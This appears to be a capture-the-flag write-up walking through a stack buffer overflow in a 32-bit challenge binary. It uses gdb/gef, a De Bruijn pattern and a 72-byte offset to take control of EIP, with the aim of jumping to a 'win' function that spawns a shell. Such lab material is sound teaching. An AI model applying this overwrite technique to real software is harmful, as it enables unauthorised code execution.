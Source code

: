 > registers
> stack
> code
> threads
> trace

And the colours (when you do this yourself if you use gef) are defined at the top

> [ Legend: Modified register | Code | Heap | Stack | String ]

Which doesn't come out here, but oh well.

As we can see at the top (and I've shown at the bottom as well), we can see that our `eip` shows this:
```sh
$eip   : 0x080491bb  →  <main+0> push ebp
```
And if we disassemble `main`:
```sh
gef➤  disas main
Dump of assembler code for function main:
=> 0x080491bb <+0>:	push   ebp
```
We see that eip points to that address (as well as gef nicely putting an arrow to where we are).

So therefore, what if we made the `eip` point to the `win` function? We therefore execute the function, and therefore execute the function `system("/bin/sh")`, getting us our shell.

So let's send in the De Bruijn pattern, and see where our eip end up.
```sh
 euan@arch  chall4  gdb -q chall4_i386
...
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
gef➤  r
Starting program: chall4/chall4_i386 
What are you going to say?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Thank you, have a nice day!

Program received signal SIGSEGV, Segmentation fault.
0x61616173 in ?? ()
...
$eip   : 0x61616173 ("saaa"?)
...
gef➤  pattern search $eip
[+] Searching '$eip'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 69 (big-endian search) 
```
So what we've done, is we've found out that we need to input 72 characters to then modify the `eip` register. Let's test that:
```sh
gef➤  python print("A"*72 + "BBBB")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
gef➤  r
Starting program: /chall4/chall4_i386 
What are you going to say?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Thank you, have a nice day!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
